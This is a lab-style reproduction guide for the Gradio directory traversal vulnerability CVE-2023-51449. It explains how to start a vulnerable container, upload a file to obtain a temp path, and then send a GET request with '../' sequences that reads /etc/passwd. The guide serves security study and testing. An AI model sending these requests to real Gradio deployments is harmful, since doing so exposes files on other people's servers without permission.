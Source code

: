 # Gradio `file` Directory Traversal Vulnerability (CVE-2023-51449)

Gradio is a Python library for creating interactive interfaces for machine learning models. With Gradio, you can quickly build a visual, easy-to-use web interface for your model without writing any front-end code.

Gradio 4.11 and below, when authentication is not enabled, you can use a public URL to access any file on the machine running the Gradio application if you know the file path to find (for example, if the demo was created with `share=True` or on Hugging Face Spaces).

Reference Links:

+ https://github.com/gradio-app/gradio/pull/6833

+ https://github.com/gradio-app/gradio/tree/gradio%404.10.0

## Environment startup

Execute the following command to start the Gradio environment:

```
docker compose up -d
```

After successful startup, there is no authentication by default.

```
http://your-ip:7860
```

## Vulnerability Reproduction

To upload a piece of content using the upload interface, you need to obtain an accessible file path.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```

![image-20250424134122049](1.png)
After getting an accessible file path, use the file interface to access it and use directory traversal to read the file, and it can be read successfully.

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
```

![image-20250424134351720](2.png)
